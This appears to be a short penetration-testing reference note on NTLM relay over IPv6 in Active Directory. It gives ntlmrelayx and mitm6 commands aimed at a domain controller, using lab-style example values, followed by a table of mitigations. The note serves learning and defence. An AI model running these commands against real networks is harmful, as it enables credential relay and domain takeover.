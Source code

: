 Perform an NTLM relay attack using IPv6
```
ntlmrelayx.py -6 -t ldaps://<DC IP> -wh <FAKEWPAD HOSTNAME> -l <DIRECTORY NAME>
ntlmrelayx.py -6 -t ldaps://10.0.0.225 -wh fakewpad.local -l lootme
```
Set up `mitm6`
```
sudo mitm6 -d <DOMAIN>
sudo mitm6 -d MARVEL.local
```
## Mitigation
| **Methods**                                                                                                    | **Description**                                                                            | **Enhanced Information**                                                    |
| -------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------- |
| **Block (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPv6-In)**                 | Prevents incoming DHCPv6 traffic to stop malicious configuration.                          | Stops rogue DHCPv6 servers from altering client settings.                   |
| **Block (Inbound) Core Networking - Router Advertisement (ICMPv6-In)**                                         | Blocks ICMPv6 Router Advertisements to prevent routing manipulation.                       | Prevents attackers from redirecting traffic through malicious routes.       |
| **Block (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPv6-Out)**               | Stops outgoing DHCPv6 traffic to block malicious configurations.                           | Protects against clients receiving harmful configuration data.              |
| **If WPAD is not used internally, disable WinHttpAutoProxySvc service**                                        | Disables WPAD auto-discovery to prevent malicious proxy requests.                          | Reduces risk of WPAD-related attacks if not in use.                         |
| **Enable both LDAP signing and LDAP channel binding**                                                          | Signs and binds LDAP traffic to prevent tampering and unauthorized relaying.               | Ensures LDAP data integrity and security against relay attacks.             |
| **Move administrative users to the protected users group / Marking them as sensitive and cannot be delegated** | Moves high-privilege accounts to protected status to prevent delegation and impersonation. | Shields sensitive accounts from being exploited through delegation attacks. |
